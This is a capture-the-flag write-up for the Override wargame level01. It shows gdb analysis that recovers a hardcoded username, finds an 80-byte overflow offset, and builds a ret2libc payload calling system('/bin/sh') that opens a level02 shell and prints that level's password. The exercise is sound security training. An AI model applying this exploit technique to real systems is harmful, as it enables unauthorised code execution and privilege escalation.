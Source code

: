 # Override - level01

We've started executing the binary to see what was asking.

It asked a username and if we gave a wrong one the output was "nope, incorrect username...".

When we su from level00 we noticed that the no execute (NX) bit was't set, so the program's Stack is probably vulnerable to a buffer overflow.

We tried to make the username input overflow without success.

We analyzed the binary using gdb

```
info functions
```

we noticed that there were two functions named
    - verify_user_name
    - verify_user_pass

dissassembling the first one we've noticed that there was a comparison between esi and edi.

The comparison repeated till [esi] and [edi] were equal

```
Dump of assembler code for function verify_user_name:
...
0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]    <- repeated comparison
...
0x080484a2 <+62>:	ret
```

Using gdb we set a breakpoint on the comparison

```
b *0x0804848b
```

and we printed the values of esi and edi

```
(gdb) x/s $edi
0x80486a8:	 "dat_wil"
(gdb) x/s $esi
0x804a040 <a_user_name>:	 "ciao\n"
```

the comparison was between "dat_wil" (fixed value) and our input "ciao".
So dat_wil is the username. Effectively it worked and asked for the password.

We tried to make the password input overflow 

The problem is that there is no call to system in main, if we have the username
and the password it will only return 1 or 0 and nothing will happen.

Since using the checksec command we can see that the no excution (NX) byte is not set we can try a classic buffer overflow attack.

Testing we noticed that if we sent 100 chars to the password input we have a buffer overflow, so it's probably exploitable.

At first we need to find right number of chars to send to have a buffer overflow, we used for this purpose a buffer overflow pattern generator with gdb.

We run the program in gdb and gave as password a 200 char pattern

```
Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9A         f nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

using the address of the segv we got that the offset is 80.

Now we can find the addresses of system, exit and /bin/sh in the libc

```
info functions system
0xf7e6aed0  system

info functions exit
0xf7e5eb70  exit
```

to find /bin/sh we need to print the list of mapped memory regions.

```
info proc map

0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
```

in the libc we search for "/bin/sh" using find

```
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.

(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Now we can build the payload for the exploit.

We convert the addresses to little endian

```
system      0xf7e6aed0  <==>    \xd0\xae\xe6\xf7
exit        0xf7e5eb70  <==>    \x70\xeb\xe5\xf7
"/bin/sh"   0xf7f897ec  <==>    \xec\x97\xf8\xf7
```

We store the shellcode into a tmp file since we have to open a shell using cat.

```
python -c "print 'dat_wil'; print 'A' * 80 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" > /tmp/level01

cat /tmp/level01 - | ./level01

level02 shell is open

whoami
level02

cat ~level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```